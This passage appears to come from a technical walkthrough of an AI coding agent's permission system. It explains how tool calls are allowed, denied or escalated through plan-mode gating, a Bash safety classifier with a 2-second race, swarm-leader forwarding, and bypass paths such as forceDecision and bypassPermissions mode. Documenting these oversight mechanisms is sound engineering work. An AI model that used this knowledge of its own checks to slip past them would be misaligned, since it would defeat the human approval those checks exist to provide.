      toolUseContext.abortController.abort()
    }
    return { behavior: 'ask', message, contentBlocks }
  },
  // ... tryClassifier, runHooks, buildAllow, buildDeny, handleUserAllow,
  //     handleHookAllow, pushToQueue, removeFromQueue, updateQueueItem
}
```

The `resolveIfAborted` check runs before every potentially long operation, ensuring that a user abort is handled promptly. The `cancelAndAbort` method constructs a denial message with subagent-awareness (using different rejection message templates for subagent vs main-agent contexts) and conditionally aborts the tool's `AbortController` when the cancellation is a true abort (no feedback, no content blocks, not a subagent).

### ResolveOnce: the atomic claim guard

The `createResolveOnce` helper (`src/hooks/toolPermission/PermissionContext.ts:L75-L94`) provides an atomic check-and-mark primitive that prevents multiple racers from resolving the same permission promise:

```typescript
// src/hooks/toolPermission/PermissionContext.ts:L75-L94
function createResolveOnce<T>(resolve: (value: T) => void): ResolveOnce<T> {
  let claimed = false
  let delivered = false
  return {
    resolve(value: T) {
      if (delivered) return
      delivered = true
      claimed = true
      resolve(value)
    },
    isResolved() {
      return claimed
    },
    claim() {
      if (claimed) return false
      claimed = true
      return true
    },
  }
}
```

The `claim()` method is the key innovation: it atomically checks whether the race has already been won and marks it as claimed in a single operation. This closes the window between checking `isResolved()` and calling `resolve()`, which is critical in the interactive handler where up to five racers (local user, bridge, channel, hook, classifier) compete for the same resolve function. Without `claim()`, two racers could both observe `isResolved() === false` and then both call `resolve()`, causing a double-resolution that would corrupt the permission state.

## Control flow

### Main decision flow

The hook wraps its logic in a React `useCallback` via the React Compiler's `_c` runtime. When called, it creates a `PermissionContext` object and then evaluates the decision:

```typescript
// src/hooks/useCanUseTool.tsx:L32-L37
async (tool, input, toolUseContext, assistantMessage, toolUseID, forceDecision) =>
  new Promise(resolve => {
    const ctx = createPermissionContext(tool, input, toolUseContext, assistantMessage, toolUseID, setToolPermissionContext, createPermissionQueueOps(setToolUseConfirmQueue))
    if (ctx.resolveIfAborted(resolve)) { return; }
    const decisionPromise = forceDecision !== undefined ? Promise.resolve(forceDecision) : hasPermissionsToUseTool(tool, input, toolUseContext, assistantMessage, toolUseID);
```

The `createPermissionQueueOps` helper bridges React's `setToolUseConfirmQueue` state setter to the generic `PermissionQueueOps` interface used by `PermissionContext`. The bridge provides three operations -- `push`, `remove`, and `update` -- each implemented as a React state update:

```typescript
// src/hooks/toolPermission/PermissionContext.ts:L357-L379
function createPermissionQueueOps(
  setToolUseConfirmQueue: React.Dispatch<React.SetStateAction<ToolUseConfirm[]>>,
): PermissionQueueOps {
  return {
    push(item: ToolUseConfirm) {
      setToolUseConfirmQueue(queue => [...queue, item])
    },
    remove(toolUseID: string) {
      setToolUseConfirmQueue(queue =>
        queue.filter(item => item.toolUseID !== toolUseID),
      )
    },
    update(toolUseID: string, patch: Partial<ToolUseConfirm>) {
      setToolUseConfirmQueue(queue =>
        queue.map(item =>
          item.toolUseID === toolUseID ? { ...item, ...patch } : item,
        ),
      )
    },
  }
}
```

If the decision is `allow`, the hook checks whether it came from the auto-mode classifier and records the approval for UI display via `setYoloClassifierApproval`. If the decision is `deny`, it records auto-mode denials for telemetry and shows a notification. If the decision is `ask`, it enters the escalation pipeline.

```mermaid
sequenceDiagram
    participant Q as queryLoop
    participant H as useCanUseTool
    participant P as hasPermissionsToUseTool
    participant CO as CoordinatorHandler
    participant SW as SwarmWorkerHandler
    participant SC as SpeculativeClassifier
    participant UI as InteractivePermission

    Q->>H: canUseTool(tool, input, context, msg, id)
    H->>P: hasPermissionsToUseTool(tool, input, ...)
    P-->>H: PermissionDecision

    alt behavior = allow
        H->>H: setYoloClassifierApproval (if auto-mode)
        H-->>Q: buildAllow(input, decisionReason)
    else behavior = deny
        H->>H: recordAutoModeDenial + notification
        H-->>Q: deny result
    else behavior = ask
        alt awaitAutomatedChecksBeforeDialog
            H->>CO: handleCoordinatorPermission
            CO-->>H: decision or null
        end
        alt swarm worker
            H->>SW: handleSwarmWorkerPermission
            SW-->>H: decision or null
        end
        alt BashTool + speculativeClassifier
            H->>SC: peekSpeculativeClassifierCheck
            SC-->>H: high-confidence match?
            alt match found within 2s
                H-->>Q: buildAllow with classifier decisionReason
            else timeout or no match
                H->>UI: handleInteractivePermission
            end
        else other tool
            H->>UI: handleInteractivePermission
        end
    end
```

### Plan mode enforcement

The hook enforces plan mode restrictions through the `hasPermissionsToUseTool` function, which consults the current permission mode stored in `appState.toolPermissionContext.mode`. When plan mode is active, `hasPermissionsToUseTool` returns `deny` for any tool that performs writes or side effects (Edit, Write, Bash with write-classified commands, etc.) and `allow` for read-only tools (Read, Glob, Grep). This gating is the primary mechanism by which plan mode ensures the agent cannot make filesystem changes while planning.

The enforcement works through the tool's own `isReadOnly` property and the permission rule system. Tools that declare `isReadOnly: true` (like Read, Glob, and Grep) are automatically allowed in plan mode. Tools without this property are treated as potentially destructive and are denied unless the user has explicitly allowed them through permission rules. The Bash tool receives special treatment: the command classifier determines whether a specific command is read-only or write-classified, and only read-only commands (like `ls`, `cat`, `git status`) are allowed in plan mode.

The hook itself does not re-check plan mode after the initial `hasPermissionsToUseTool` call. If the user switches into or out of plan mode while a permission dialog is displayed, the `recheckPermission` callback re-evaluates the decision by calling `hasPermissionsToUseTool` again with the current mode. This ensures that a mode switch mid-dialog is respected: if the user switches from default mode to plan mode while a Bash command is pending, the recheck will deny the command even though the original evaluation returned `ask`. Conversely, if the user exits plan mode while a read-only tool was auto-approved, the next write-classified tool call will correctly show an `ask` decision because the mode has changed.

The `EnterPlanModeTool` and `ExitPlanModeV2Tool` (Chapter 45) trigger the mode switch by updating `appState.toolPermissionContext.mode`. Because the hook reads this state on each invocation rather than capturing it in a closure, the plan mode restriction takes effect on the very next tool call without requiring a React re-render or a callback recreation. This is a subtle but important design point: if the hook captured the permission mode in its closure at creation time, switching to plan mode would have no effect until the next React re-render created a new callback instance. By reading the mode from the app state on each call, the hook ensures that plan mode enforcement is immediate and consistent.

### Coordinator handler

When `appState.toolPermissionContext.awaitAutomatedChecksBeforeDialog` is true (typically for swarm worker contexts), the coordinator handler intercepts `ask` decisions before they reach the user. This implements HER's principle that automated checks should resolve before interrupting the user (Section 11.2, Tier 1-2). The coordinator runs two automated checks sequentially:

```typescript
// src/hooks/toolPermission/handlers/coordinatorHandler.ts:L31-L46
try {
  // 1. Try permission hooks first (fast, local)
  const hookResult = await ctx.runHooks(
    permissionMode,
    suggestions,
    updatedInput,
  )
  if (hookResult) return hookResult

  // 2. Try classifier (slow, inference -- bash only)
  const classifierResult = feature('BASH_CLASSIFIER')
    ? await ctx.tryClassifier?.(params.pendingClassifierCheck, updatedInput)
    : null
  if (classifierResult) {
    return classifierResult
  }
```

The hooks check runs first because it is fast and local (no network calls). The classifier check runs second because it may require an API call with significant latency. If both return null, the handler falls through to the interactive dialog. If either check throws an unexpected error, the handler logs it and falls through rather than blocking the permission pipeline:

```typescript
// src/hooks/toolPermission/handlers/coordinatorHandler.ts:L47-L57
} catch (error) {
  if (error instanceof Error) {
    logError(error)
  } else {
    logError(new Error(`Automated permission check failed: ${String(error)}`))
  }
}
return null
```

The error handling intentionally avoids `toError()` for non-Error throws, adding a context prefix so the log is traceable. This is a defensive choice: the coordinator should never prevent the user from seeing the dialog, even if an automated check throws an unexpected value.

### Swarm worker handler

Swarm workers forward permission requests to the team leader via the mailbox system. If the leader auto-approves, the worker proceeds without showing a dialog. This implements HER's async approval pattern (Section 11.3): the worker does not fully block on human input but instead continues with other work while waiting for the leader's response. The handler first checks whether swarms are enabled and whether this instance is a swarm worker:

```typescript
// src/hooks/toolPermission/handlers/swarmWorkerHandler.ts:L43-L45
if (!isAgentSwarmsEnabled() || !isSwarmWorker()) {
  return null
}
```

If both conditions are true, the handler tries classifier auto-approval first (for Bash commands), then forwards the request to the leader. The critical implementation detail is the callback registration order: the callback is registered *before* the request is sent to avoid a race condition where the leader responds before the callback is registered:

```typescript
// src/hooks/toolPermission/handlers/swarmWorkerHandler.ts:L81-L123
registerPermissionCallback({
  requestId: request.id,
  toolUseId: ctx.toolUseID,
  async onAllow(
    allowedInput: Record<string, unknown> | undefined,
    permissionUpdates: PermissionUpdate[],
    feedback?: string,
    contentBlocks?: ContentBlockParam[],
  ) {
    if (!claim()) return // atomic check-and-mark before await
    clearPendingRequest()

    // Merge the updated input with the original input
    const finalInput =
      allowedInput && Object.keys(allowedInput).length > 0
        ? allowedInput
        : ctx.input

    resolveOnce(
      await ctx.handleUserAllow(
        finalInput,
        permissionUpdates,
        feedback,
        undefined,
        contentBlocks,
      ),
    )
  },
  onReject(feedback?: string, contentBlocks?: ContentBlockParam[]) {
    if (!claim()) return
    clearPendingRequest()

    ctx.logDecision({
      decision: 'reject',
      source: { type: 'user_reject', hasFeedback: !!feedback },
    })

    resolveOnce(ctx.cancelAndAbort(feedback, undefined, contentBlocks))
  },
})

// Now that callback is registered, send the request to the leader
void sendPermissionRequestViaMailbox(request)
```

While waiting for the leader's response, the handler sets a visual indicator (`pendingWorkerRequest`) in the app state and registers an abort listener that cancels the pending request if the user aborts the session. The `claim()` guard in both `onAllow` and `onReject` prevents double-resolution if the abort fires simultaneously with the leader's response.

### Speculative classifier race

For Bash commands in the main agent (not swarm workers), the hook races the speculative classifier check against a 2-second timeout. The speculative classifier is a pre-computed check that runs in parallel with the dialog display, allowing the dialog to be skipped if the classifier returns a high-confidence match quickly:

```typescript
// src/hooks/useCanUseTool.tsx:L127-L131
const speculativePromise = peekSpeculativeClassifierCheck(
  (input as { command: string }).command,
)
if (speculativePromise) {
  const raceResult = await Promise.race([
    speculativePromise.then(r => ({ type: 'result' as const, result: r })),
    new Promise<{ type: 'timeout' }>(res =>
      setTimeout(res, 2000, { type: 'timeout' as const }),
    ),
  ])
```

If the classifier returns a high-confidence match within the grace period, the dialog is skipped and the command is auto-approved with a `bash_allow` decision reason. The `consumeSpeculativeClassifierCheck` function removes the pre-computed result to prevent it from being used again. This avoids the latency of showing an interactive dialog for commands that the classifier can confidently approve.

The race only fires when four conditions are met: the `BASH_CLASSIFIER` feature flag is enabled, the decision includes a `pendingClassifierCheck`, the tool is the Bash tool, and `awaitAutomatedChecksBeforeDialog` is false (i.e., this is the main agent, not a coordinator worker). When any of these conditions is false, the hook falls directly to the interactive handler.

### Interactive permission handler

The `handleInteractivePermission` function (`src/hooks/toolPermission/handlers/interactiveHandler.ts:L57`) is the most complex handler, managing up to five concurrent racers that compete for the permission resolve. It pushes a `ToolUseConfirm` entry to the confirm queue and sets up callbacks for user interaction, abort, allow, reject, and permission recheck. The function does not return a Promise; instead, it accepts the `resolve` function from the outer Promise and calls it when any racer wins.

The five racers are:

1. **Local user interaction**: The user approves or denies through the terminal's interactive dialog. The `onUserInteraction` callback is called when the user starts interacting (arrow keys, tab, typing feedback), which cancels the background classifier check via `clearClassifierChecking`. A 200ms grace period prevents accidental keypresses from canceling the classifier prematurely.

2. **Bridge permission response**: When running in VS Code bridge mode, the permission request is forwarded to CCR (Claude Code Remote). Whichever side (CLI or CCR) responds first wins via `claim()`.

3. **Channel permission relay**: When running in KAIROS channel mode, permission prompts are sent to active channels (Telegram, iMessage, etc.) via MCP notifications. Channel replies are intercepted before they reach Claude as conversation turns.

4. **Permission request hooks**: `executePermissionRequestHooks` runs hooks registered for the `PermissionRequest` event. If a hook returns a decision before the user responds, the hook wins.

5. **Async classifier check**: For Bash commands, the classifier runs asynchronously in the background after the dialog is displayed. If it returns a high-confidence match, the dialog transitions to a "checkmark" state (dimmed options showing auto-approved) before being removed after a timed delay.

The checkmark transition timer uses different durations depending on terminal focus: 3 seconds if the terminal is focused (the user can see it), 1 second if not. The user can dismiss early with Esc via the `onDismissCheckmark` callback. The timer is also cleaned up if a sibling Bash error fires the abort signal, preventing a stale checkmark from blocking the next queued item.

#### The ToolUseConfirm UI component

The `ToolUseConfirm` entry pushed to the queue is rendered by the `PermissionRequest` component (`src/components/permissions/PermissionRequest.tsx`). This component renders the interactive permission dialog that the user sees in the terminal. It receives the tool name, description, input preview, and the permission result (including suggestions) and presents a set of options: approve once, approve and remember the decision, deny, or switch permission modes via the suggestions.

The component subscribes to classifier checking state via `subscribeClassifierChecking` and updates its UI reactively: while the classifier is running, it shows a spinner indicator; when the classifier auto-approves, it transitions to the dimmed checkmark state. The `onUserInteraction` callback is wired to the Ink `useInput` hook, which fires on any keypress. This is why the grace period exists: Ink delivers keypress events synchronously, and without the grace period, a stale keypress from a previous tool invocation could cancel the classifier before it starts.

The component also handles the bridge and channel permission prompts indirectly: the bridge's `sendRequest` call sends the same tool metadata to the CCR web UI, which renders its own permission modal. The channel relay sends a notification to the configured channels. Both of these remote UIs are independent of the terminal's Ink-rendered dialog; the first response from any UI wins the race.

An important detail about the `ToolUseConfirm` entry is that it carries the `permissionResult` (the full `ask` decision, including suggestions and the decision reason) as well as the callbacks. This means the UI component has all the context it needs to render the dialog without making additional calls to the permission system. The suggestions are rendered as actionable buttons: for example, if the denial reason is that a path is not in the allow list, the suggestions might include "Add path to allow list" or "Switch to acceptEdits mode." Each suggestion corresponds to a `PermissionUpdate` that, if selected, is applied by the `handleUserAllow` method on the context.

```mermaid
flowchart TD
    A[handleInteractivePermission called] --> B[Push ToolUseConfirm to queue]
    B --> C{Bridge mode?}
    C -->|yes| D[Send request to CCR]
    C -->|no| E{Channel mode?}
    E -->|yes| F[Send notification to channels]
    E -->|no| G[Wait for local interaction]
    D --> G
    F --> G
    G --> H{awaitAutomatedChecksBeforeDialog?}
    H -->|no| I[Run PermissionRequest hooks async]
    H -->|yes| J[Skip hooks - already ran]
    I --> K{Bash + classifier?}
    J --> K
    K -->|yes| L[Execute async classifier check]
    K -->|no| M[Wait for first racer]
    L --> M
    M --> N{Which racer wins?}
    N --> O[claim() + resolveOnce()]
    O --> P[Remove from queue + cleanup]
```

### Auto-mode denial handling

When the auto-mode classifier denies a tool call, the hook records the denial for telemetry and shows an inline notification:

```typescript
// src/hooks/useCanUseTool.tsx:L77-L89
if (feature("TRANSCRIPT_CLASSIFIER") && result.decisionReason?.type === "classifier" && result.decisionReason.classifier === "auto-mode") {
  recordAutoModeDenial({
    toolName: tool.name,
    display: description,
    reason: result.decisionReason.reason ?? "",
    timestamp: Date.now()
  })
  toolUseContext.addNotification?.({
    key: "auto-mode-denied",
    priority: "immediate",
    jsx: <><Text color="error">{tool.userFacingName(input).toLowerCase()} denied by auto mode</Text><Text dimColor={true}> · /permissions</Text></>
  })
}
```

The notification includes the tool's user-facing name and a hint to use `/permissions` to adjust the rules. The `recordAutoModeDenials` function writes to a session-scoped list that can be queried later for debugging or for the denial tracking subsystem (Chapter 34). The `key: "auto-mode-denied"` ensures that multiple denials coalesce into a single notification rather than stacking.

### Permission recheck

The `recheckPermission` callback in the interactive handler allows the permission state to be re-evaluated after it changes. This is used when a user switches permission modes via the dialog's suggestions (e.g., switching from default to acceptEdits mode). The recheck calls `hasPermissionsToUseTool` again with the current input and context:

```typescript
// src/hooks/toolPermission/handlers/interactiveHandler.ts:L204-L231
async recheckPermission() {
  if (isResolved()) return
  const freshResult = await hasPermissionsToUseTool(
    ctx.tool,
    ctx.input,
    ctx.toolUseContext,
    ctx.assistantMessage,
    ctx.toolUseID,
  )
  if (freshResult.behavior === 'allow') {
    if (!claim()) return
    if (bridgeCallbacks && bridgeRequestId) {
      bridgeCallbacks.cancelRequest(bridgeRequestId)
    }
    channelUnsubscribe?.()
    ctx.removeFromQueue()
    ctx.logDecision({ decision: 'accept', source: 'config' })
    resolveOnce(ctx.buildAllow(freshResult.updatedInput ?? ctx.input))
  }
}
```

The `claim()` guard (not `isResolved()`) is used here because the async `hasPermissionsToUseTool` call opens a window where a bridge or channel response could have resolved the race in flight. Using `claim()` ensures that only one winner exists.

### Error handling

Errors during permission evaluation are caught and resolved as cancellations:

```typescript
// src/hooks/useCanUseTool.tsx:L171-L182
.catch(error => {
  if (error instanceof AbortError || error instanceof APIUserAbortError) {
    logForDebugging(`Permission check threw ${error.constructor.name} for tool=${tool.name}: ${error.message}`);
    ctx.logCancelled();
    resolve(ctx.cancelAndAbort(undefined, true));
  } else {
    logError(error);
    resolve(ctx.cancelAndAbort(undefined, true));
  }
}).finally(() => {
  clearClassifierChecking(toolUseID);
})
```

Both abort errors and unexpected errors resolve with `cancelAndAbort`, which signals the query loop to stop processing the current tool call. The `clearClassifierChecking` call in the `finally` block ensures that the classifier checking state is always cleaned up, even if the permission evaluation throws an unexpected error.

```mermaid
stateDiagram-v2
    [*] --> Evaluating: canUseTool called
    Evaluating --> Allowed: behavior=allow
    Evaluating --> Denied: behavior=deny
    Evaluating --> CoordinatorCheck: behavior=ask + awaitAutomated
    CoordinatorCheck --> Allowed: coordinator approves
    CoordinatorCheck --> SwarmCheck: coordinator null
    SwarmCheck --> Allowed: leader approves
    SwarmCheck --> SpeculativeRace: swarm null + BashTool
    SpeculativeRace --> Allowed: classifier match within 2s
    SpeculativeRace --> InteractiveDialog: timeout or no match
    Evaluating --> InteractiveDialog: behavior=ask + no automation
    InteractiveDialog --> Allowed: user/hook/classifier/bridge/channel approves
    InteractiveDialog --> Denied: user rejects
    Allowed --> [*]
    Denied --> [*]
```

### Non-React execution contexts

Because `useCanUseTool` is a React hook, its permission evaluation is only available within the React rendering tree. In non-interactive contexts -- headless mode (`--print`), SDK mode, and daemon mode -- there is no React component tree and therefore no `useCanUseTool` instance. These contexts use a different permission path entirely. Understanding this split is important for anyone building a harness that needs to work both interactively and non-interactively: the permission logic is shared (via `hasPermissionsToUseTool` and `PermissionContext`), but the interactive escalation path (the five racers, the `ToolUseConfirm` queue, the Ink-rendered dialog) is React-specific and must be replaced with an alternative in non-React contexts.

In headless mode, the `hasPermissionsToUseTool` function is called directly from the query loop without going through the hook. The decision is resolved immediately: `allow` decisions proceed, `deny` decisions are logged and the tool call is skipped, and `ask` decisions are treated as `deny` because there is no interactive UI to display. This is why headless mode is typically used with `acceptEdits` or `bypassPermissions` mode -- the agent cannot prompt the user for permission. If the user runs headless mode in default permission mode and the agent attempts a write operation, the tool call will be silently denied, which can lead to confusing behavior where the agent's edits are not applied.

In SDK mode (when cc is embedded as a library), the host application provides its own permission callback via `toolUseContext.addNotification` and `toolUseContext.abortController`. The SDK host can intercept `ask` decisions and display its own permission UI, or it can use `forceDecision` to bypass the permission pipeline entirely for trusted operations. The `forceDecision` parameter is the SDK host's primary mechanism for programmatic tool dispatch. When building an SDK integration, you must decide whether to implement a permission UI (replicating the five-racer pattern) or to use a permissive mode with `forceDecision` for trusted operations. The former is safer but more complex; the latter is simpler but requires careful trust boundaries.

In daemon mode (when cc runs as a background service with cron/scheduled tasks), the `isNonInteractiveSession` flag is set on the `toolUseContext`. The permission system checks this flag and skips the interactive dialog, resolving `ask` decisions as denials unless the tool was explicitly allowlisted via permission rules. This prevents a daemon-mode agent from hanging indefinitely on a permission prompt that no user will see. The daemon mode also interacts with the dream task system (Chapter 24): dream tasks are always non-interactive, and they use a restricted set of tools that are pre-approved for memory consolidation operations, so the permission system rarely needs to intervene.

## Edge cases and failure modes

**Race between classifier and dialog**: The speculative classifier race has a 2-second window. If the classifier is slow (e.g., due to API latency or a cold cache), the race times out and the dialog is shown. The classifier result is then discarded, even if it arrives shortly after. This is a deliberate tradeoff: the user experience of waiting for a dialog is worse than showing the dialog immediately. The `consumeSpeculativeClassifierCheck` function removes the pre-computed result to prevent it from being used on a subsequent call with different input.

**Swarm worker permission forwarding deadlock**: If a swarm worker's permission request is forwarded to the leader, but the leader is itself waiting for a permission decision, a deadlock can occur. The `handleSwarmWorkerPermission` handler does not implement a timeout on the leader's response, so a stuck leader could indefinitely block the worker. The `awaitAutomatedChecksBeforeDialog` flag mitigates this by ensuring that automated checks run before any dialog is shown, but it does not prevent the deadlock case. The abort listener provides a partial escape: if the user aborts the session, the pending request is cancelled and the worker's permission promise resolves with a cancellation.

**Force decision bypass**: The `forceDecision` parameter allows callers to bypass the entire permission pipeline. This is intended for programmatic tool dispatch (e.g., tests, SDK integrations) but could be misused to bypass safety checks. The parameter is not exposed to the model; only the harness code can set it. This is a necessary escape hatch for any agent that needs to perform programmatic tool calls (e.g., the SDK host that drives cc from an external application).

**Abort during permission evaluation**: If the user aborts the session while a permission dialog is displayed, the `resolveIfAborted` check catches the abort and resolves with a cancellation. However, if the abort occurs after the user has already interacted with the dialog but before the result is processed, the tool call is still cancelled, and the user's approval is lost. This is a tradeoff between consistency (the abort always takes effect) and user experience (the approval is wasted). The `resolveIfAborted` checks are placed strategically before every potentially long operation to minimize this window.

**Classifier checking state cleanup**: The `clearClassifierChecking` call in the `finally` block ensures that the per-tool-use-ID classifier checking state is always cleaned up. Without this cleanup, a tool use ID that was marked as "checking" would prevent subsequent permission evaluations for the same tool from running the speculative classifier, because `peekSpeculativeClassifierCheck` only returns a promise for IDs that are currently being checked.

**Bridge and channel cleanup on abort**: When the local user or classifier wins the race, the bridge request and channel subscription must be cleaned up. The interactive handler handles this at every resolution site: `bridgeCallbacks.cancelRequest(bridgeRequestId)` tells the CCR to dismiss its prompt, and `channelUnsubscribe?.()` removes both the map entry and the abort listener. Without the channel unsubscribe wrapper, the dead closure would stay registered on the session-scoped abort signal until the session ended -- not a functional bug (Map.delete is idempotent), but it held the closure alive unnecessarily.

## Where cc diverges from the published pattern

HER Section 11.2 prescribes a four-tier escalation model: deterministic checks (Tier 1), agent self-correction (Tier 2), human front-line (Tier 3), and human expert (Tier 4). cc's implementation conflates Tiers 2 and 3: the classifier auto-approval/denial and the interactive permission dialog occupy the same code path, with the coordinator and swarm handlers acting as intermediate automated checks. There is no explicit "agent self-correction" tier where the agent can revise its action before escalation. The denial tracking subsystem (Chapter 34) provides a partial implementation: after three consecutive denials, the system falls back to the interactive dialog, but the agent does not get a chance to revise its input.

HER Section 11.3 describes async approval where the agent parks a blocked action and continues with non-blocked work. cc's swarm worker handler partially implements this by forwarding permission requests to the leader, but the main agent does not have an async approval mechanism. When the main agent encounters an `ask` decision, it blocks entirely until the user responds. For a long-running agent, this means a single permission prompt can halt all progress. An alternative design would be to park the blocked action and continue with other tool calls, resuming the blocked action when the user responds. This would require significant changes to the query loop's execution model, but it would dramatically reduce idle time during multi-hour sessions.

The bridge and channel permission callbacks provide an alternative path for non-interactive approval. When running in VS Code bridge mode or KAIROS channel mode, the permission request can be routed to the IDE's permission UI or to a channel-based approval system, rather than the terminal's interactive dialog. This is a partial implementation of async approval: the request is still blocking from the agent's perspective, but the user can respond from a different UI surface. The channel relay has a notable limitation: it only supports yes/no responses with no `updatedInput` path, which means it cannot handle tools that require user-modified inputs (like plan edits).

## Developer takeaways for building a long-running agent

1. **Race conditions between automated and manual approval**: When automated checks and human approval compete, you need a clear timeout and fallback. Set the timeout based on your user experience budget, not the expected classifier latency. A 2-second timeout means the user sees the dialog after 2 seconds even if the classifier would have approved at 2.5 seconds.

2. **Swarm workers need permission forwarding with timeouts**: Without a timeout on the leader's response, a stuck leader can deadlock the entire swarm. Implement a bounded wait with a fallback to the interactive dialog.

3. **Record every decision for auditability**: The `logPermissionDecision` call at every branch point ensures that every permission decision is captured for telemetry. This audit trail is essential for post-incident analysis.

4. **The `claim()` atomic guard prevents double-resolution**: When multiple approval paths race for the same resolve function, an atomic check-and-mark primitive is essential. The `createResolveOnce` helper provides this guarantee with a single `claimed` boolean.

5. **Non-React contexts need a separate permission path**: The React hook design does not generalize to headless, SDK, or daemon modes. Plan for a direct-call path that resolves `ask` decisions without a UI, using `forceDecision` or the `isNonInteractiveSession` flag.

6. **Grace periods prevent accidental classifier cancellation**: The 200ms grace period prevents a stray keypress from canceling a classifier check that is about to auto-approve.

## Supporting subsystems

### Permission logging and telemetry

The `logPermissionDecision` function (`src/hooks/toolPermission/permissionLogging.ts:L181`) is the single entry point for all permission decision logging. It is called by every handler after every approve or reject decision. The function fans out to four destinations:

1. **Analytics events**: Distinct event names per approval source enable funnel analysis. Config auto-approvals emit `tengu_tool_use_granted_in_config`, classifier approvals emit `tengu_tool_use_granted_by_classifier`, user approvals emit either `tengu_tool_use_granted_in_prompt_permanent` or `tengu_tool_use_granted_in_prompt_temporary`, and hook approvals emit `tengu_tool_use_granted_by_permission_hook`. Rejections share a single event name (`tengu_tool_use_rejected_in_prompt`) but are differentiated by metadata fields (`isHook`, `hasFeedback`).

2. **OTel telemetry**: Every decision emits a `tool_decision` OpenTelemetry event with the decision, source, and tool name.

3. **Code-edit OTel counters**: For code-editing tools (Edit, Write, NotebookEdit), the function builds counter attributes including the file language (derived from the file path via `getLanguageName`) and increments a dedicated counter.

4. **Context decision storage**: The decision is persisted on `toolUseContext.toolDecisions` so downstream code can inspect what happened for a specific tool use ID:

```typescript
// src/hooks/toolPermission/permissionLogging.ts:L221-L228
if (!toolUseContext.toolDecisions) {
  toolUseContext.toolDecisions = new Map()
}
toolUseContext.toolDecisions.set(toolUseID, {
  source: sourceString,
  decision,
  timestamp: Date.now(),
})
```

The `waiting_for_user_permission_ms` field measures how long the user took to respond, calculated from the `permissionPromptStartTimeMs` timestamp set when the dialog was pushed. This metric is only included when the user was actually prompted (not for auto-approved decisions).

### Auto-mode denial tracking

The `autoModeDenials` module (`src/utils/autoModeDenials.ts`) maintains a session-scoped list of denials from the auto-mode classifier. It is a simple append-only log with a maximum of 20 entries:

```typescript
// src/utils/autoModeDenials.ts:L16-L22
let DENIALS: readonly AutoModeDenial[] = []
const MAX_DENIALS = 20

export function recordAutoModeDenial(denial: AutoModeDenial): void {
  if (!feature('TRANSCRIPT_CLASSIFIER')) return
  DENIALS = [denial, ...DENIALS.slice(0, MAX_DENIALS - 1)]
}
```

The denial list is read from the `/permissions` UI's `RecentDenialsTab`, which shows the user what the classifier has blocked. This provides transparency into the classifier's behavior and helps users adjust their permission rules to reduce false positives. The `MAX_DENIALS` cap prevents unbounded memory growth in long-running sessions.

### Classifier approval tracking

The `classifierApprovals` module (`src/utils/classifierApprovals.ts`) tracks which tool uses were auto-approved by classifiers, enabling the UI to display a visual indicator (a dimmed checkmark) for auto-approved actions. The module maintains two data structures:

- `CLASSIFIER_APPROVALS`: A `Map<string, ClassifierApproval>` keyed by tool use ID, storing whether the approval came from the Bash classifier (`bash`) or the YOLO classifier (`auto-mode`) and the matched rule or reason.
- `CLASSIFIER_CHECKING`: A `Set<string>` of tool use IDs currently being checked by the classifier, used to show a spinner in the permission dialog.

The `createSignal` primitive provides a reactive subscription mechanism so that UI components can re-render when the checking state changes. The checking state is managed by two separate functions:

```typescript
// src/utils/classifierApprovals.ts:L62-L72
export function setClassifierChecking(toolUseID: string): void {
  if (!feature('BASH_CLASSIFIER') && !feature('TRANSCRIPT_CLASSIFIER')) return
  CLASSIFIER_CHECKING.add(toolUseID)
  classifierChecking.emit()
}

export function clearClassifierChecking(toolUseID: string): void {
  if (!feature('BASH_CLASSIFIER') && !feature('TRANSCRIPT_CLASSIFIER')) return
  CLASSIFIER_CHECKING.delete(toolUseID)
  classifierChecking.emit()
}
```

The `setClassifierApproval` and `setYoloClassifierApproval` functions are called from different code paths: the former from the speculative classifier race in `useCanUseTool`, the latter from the allow branch when the YOLO classifier approves an action. The `getClassifierApproval` and `getYoloClassifierApproval` functions are called from the UI to display the approval reason. The separation between Bash classifier and YOLO classifier approvals ensures that the UI can display the correct information for each type of auto-approval.

The `deleteClassifierApproval` function removes a single approval entry, used when the tool result is processed and the approval indicator is no longer needed. The `clearClassifierApprovals` function clears both the approvals map and the checking set, called when the session ends or when the conversation is cleared. This cleanup prevents stale approval entries from one session from leaking into the next.

### The React Compiler cache and render stability

The `useCanUseTool` hook uses the React Compiler's `_c` runtime to cache the returned callback across renders. The cache key is derived from the two state setters passed as arguments:

```typescript
// src/hooks/useCanUseTool.tsx:L29-L31
const $ = _c(3);
let t0;
if ($[0] !== setToolPermissionContext || $[1] !== setToolUseConfirmQueue) {
```

When neither setter has changed (which is the common case, since React guarantees stable identity for `useState` setters), the cached callback is returned without re-creation. This is important because the callback is passed to the query loop as a stable reference; if it changed on every render, the query loop would need to re-subscribe to the new callback, potentially causing duplicate permission evaluations.

The cache also has implications for closure freshness: the callback captures the two setters in its closure, but it does not capture any other state. All dynamic state (like the current permission mode, the classifier feature flags, and the app state) is accessed through the `toolUseContext` parameter that is passed to each invocation. This design ensures that the cached callback always uses the latest state, even though it was created in a previous render.
# The Hook Schema and Lifecycle Events

## Overview

Hooks are deterministic lifecycle event handlers embedded at 27 defined points across cc's execution. They are cc's implementation of HER Pattern 12 (Deterministic Lifecycle Hooks) and constitute one of the six configuration surfaces identified in HER Section 7.5. A hook is a user-defined command, LLM prompt, HTTP request, or agent verification that fires at a specific lifecycle event -- before a tool executes (`PreToolUse`), after compaction completes (`PostCompact`), when a file changes on disk (`FileChanged`), and so on. The hook system transforms what would otherwise be opaque model decisions into inspectable, overrideable, and auditable control points.

The schema definitions live in `src/schemas/hooks.ts` (~222 LOC), which defines the four hook-type schemas and the matcher/configuration structures. The event catalogue and per-event metadata are declared in `src/utils/hooks/hooksConfigManager.ts` (~400 LOC) and `src/entrypoints/sdk/coreTypes.ts`. The execution runtime -- the engine that spawns processes, parses JSON output, enforces timeouts, and routes results back into the query loop -- resides in `src/utils/hooks.ts` (~5000 LOC), the largest file in the hook subsystem. Settings and source-resolution logic live in `src/utils/hooks/hooksSettings.ts` (~272 LOC).

This chapter walks through the type schemas, the complete event catalogue with trigger semantics and exit-code handling, the execution runtime, and the ways cc diverges from the published HER pattern.

## Data structures and contracts

### The four hook types

Every hook is a discriminated union member keyed on the `type` field. The factory `buildHookSchemas()` in `src/schemas/hooks.ts:L31-L170` constructs four Zod object schemas that share a common set of optional fields (`if`, `timeout`, `statusMessage`, `once`) but differ in their domain-specific fields:

```typescript
// src/schemas/hooks.ts:L32-L65 — BashCommandHookSchema
const BashCommandHookSchema = z.object({
  type: z.literal('command').describe('Shell command hook type'),
